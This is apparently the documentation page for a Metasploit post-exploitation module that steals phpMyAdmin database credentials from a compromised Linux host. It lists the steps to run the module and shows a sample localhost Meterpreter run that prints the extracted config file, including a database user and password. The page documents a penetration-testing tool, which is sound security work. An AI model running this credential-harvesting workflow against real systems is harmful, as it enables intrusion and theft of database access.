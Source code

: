 ## Description

This post module gathers PhpMyAdmin Creds from target Linux machine.

* https://www.phpmyadmin.net/downloads/ [Download URL]

## Verification Steps

1. Start `msfconsole`
2. Get a session
3. Do: `use post/linux/gather/phpmyadmin_credsteal`
4. Do: `set SESSION [SESSION]`
5. Do: `run`

## Scenarios

```
msf exploit(multi/handler) > [*] Sending stage (857352 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:46066) at 2018-08-18 14:46:52 -0400

msf exploit(multi/handler) > use post/linux/gather/phpmyadmin_credsteal
msf post(linux/gather/phpmyadmin_credsteal) > set SESSION 1
SESSION => 1
msf post(linux/gather/phpmyadmin_credsteal) > exploit

[+] PhpMyAdmin config found!
[+] Extracting config file!

<?php
##
## database access settings in php format
## automatically generated from /etc/dbconfig-common/phpmyadmin.conf
## by /usr/sbin/dbconfig-generate-include
##
## by default this file is managed via ucf, so you shouldn't have to
## worry about manual changes being silently discarded.  *however*,
## you'll probably also want to edit the configuration file mentioned
## above too.
##
$dbuser='phpmyadmin';
$dbpass='Passw0rd';
$basepath='';
$dbname='phpmyadmin';
$dbserver='localhost';
$dbport='3306';
$dbtype='mysql';

[*] Post module execution completed
msf post(linux/gather/phpmyadmin_credsteal) >
```
